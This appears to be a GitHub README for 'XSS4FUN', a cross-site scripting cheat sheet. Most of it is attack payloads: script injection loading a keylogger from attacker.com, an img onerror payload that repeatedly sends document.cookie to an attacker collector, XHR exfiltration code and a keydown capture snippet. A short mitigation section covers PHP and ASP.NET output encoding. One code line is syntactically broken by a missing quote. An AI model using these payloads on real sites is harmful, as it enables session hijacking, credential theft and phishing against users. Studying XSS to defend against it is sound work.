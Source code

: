 # XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Cross-Site-Scripting Utils:
  - Steal cookies for session hijacking.
  - Modify Webpage to perform phishing.
  - Inject malicious code.
## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
  - **<script>alert(localStorage.getItem('salary'))</script>**
    - To collect sensitive information stored in Browser Local Storage.
  - **<img src=error onerror=this.src='http://attacker.site/collector.php?data='+document.cookie >**
    - This payload starts a loop, so the browser start sending multiple requests to the attacker server with the cookie.

## Javascript useful codes:
  - To perform HTTP GET request
  ```
  var xhttp = new XMLHttpRequest(); //Init xhttp object
  xhttp.open("GET", "https://attacker.site/strokes.php?data=data, true); //GET request
  xhttp.send(); //Send request
  ```
  - Collect pressed key
  ```
  document.addEventListener("keydown",function(e){
  pressed_key = e.key;
  }
  ```
## Mitigations    
  ## PHP
   Using **htmlspecialchars** to convert special characters to HTML.
  ```
  $word = htmlspecialchars($_GET['word']);
  ```
  ## ASP NET
   Using **HtmlEncode** to convert special characters to HTML.
  ```
 user_input = System.Web.HttpUtility.HtmlEncode(user_input);
  ```
  So this **<script>alert(1)</script>** becomes this **\&lt;script\&gt;alert(1)\&lt;/script&gt**

## Automated Detection
  ## xss4fun.py
  Using selenium to find input fields and inject payloads, if the injection is sucessful, a printscreen is made.
  
## References
 - ASP NET Server.HTMLEncode https://docs.microsoft.com/en-us/previous-versions/iis/6.0-sdk/ms525347%28v%3dvs.90%29
 - PHP html specialchars https://www.php.net/manual/en/function.htmlspecialchars.php
  
